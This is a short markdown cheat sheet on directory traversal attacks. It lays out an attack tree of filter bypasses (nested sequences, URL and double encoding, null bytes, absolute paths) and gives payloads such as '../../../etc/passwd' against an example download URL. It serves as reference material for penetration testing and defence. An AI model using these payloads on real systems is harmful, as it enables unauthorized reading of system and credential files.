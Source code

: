 # Directory traversal

Many applications that place user input have some kind of protection against path traversal attacks. 
* Applications can strip or block directory traversal sequences from the user-supplied filename => try an absolute 
path, nested traversal, and url encoding (In a `multipart/form-data request`).
* Some applications validate start of path => include the required base folder followed by suitable traversal sequences.
* It can be that the filename value must end with an expected file extension => try a null byte to effectively terminate 
the file path before the required extension.

## Attack tree

```text
1 Insert relative paths into existing files (OR)
    1.1 ../../../etc/hosts
    1.2 ../../../etc/passwd
    1.3 ...
2 Absolute path from the filesystem root to directly reference a file without using any traversal sequences (OR)
    2.1 filename=/etc/hosts
    2.2 filename=/etc/passwd
    2.3 ...
3 Nested traversal sequences which will revert to simple traversal sequences when the inner sequence is stripped (OR)
    3.1 ....//
    3.2 ....\/
4 URL encoding the ../ characters (OR)
    4.1 url encoding: %2e%2e%2f
    4.2 double url encoding: %252e%252e%252f 
5 Null byte bypass
```

## Examples

### Simplest form

Website has https://www.example.com/download_file.php?file=document.pdf

Pass this as the file name:

    ../../../etc/passwd

If the application does not sanitize inputs, the string is used in a system call, switches to the root and then allows 
access the `/etc/` directory and the protected passwd file.

### Null byte bypass

    filename=../../../etc/passwd%00.png

## Tools

* Developer tools browser
* [BurpSuite](https://portswigger.net/burp)
